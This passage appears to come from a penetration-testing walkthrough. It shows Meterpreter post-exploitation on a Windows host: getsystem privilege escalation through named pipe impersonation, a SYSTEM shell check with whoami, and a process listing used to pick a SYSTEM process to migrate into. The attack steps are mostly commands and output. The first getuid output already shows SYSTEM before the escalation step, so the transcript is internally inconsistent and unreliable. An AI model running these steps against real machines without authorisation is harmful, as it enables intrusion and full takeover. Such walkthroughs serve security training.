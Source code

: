 Verify our current privileges and escalate to SYSTEM:

```bash
getuid
getsystem
getuid
```

**Output:**
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Let's confirm our privileges with a DOS shell:

```bash
shell
whoami
```

**Output:**
```
C:\Windows\system32>whoami
whoami
nt authority\system
```

Perfect! We now have the highest privilege level on the system. Background the DOS shell with `Ctrl + Z` to return to Meterpreter.


### Step 5: Migrate to a SYSTEM Process

For stability, let's migrate to a process running as NT AUTHORITY\SYSTEM:

```bash
ps
```

**Output (partial):**
```
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
```
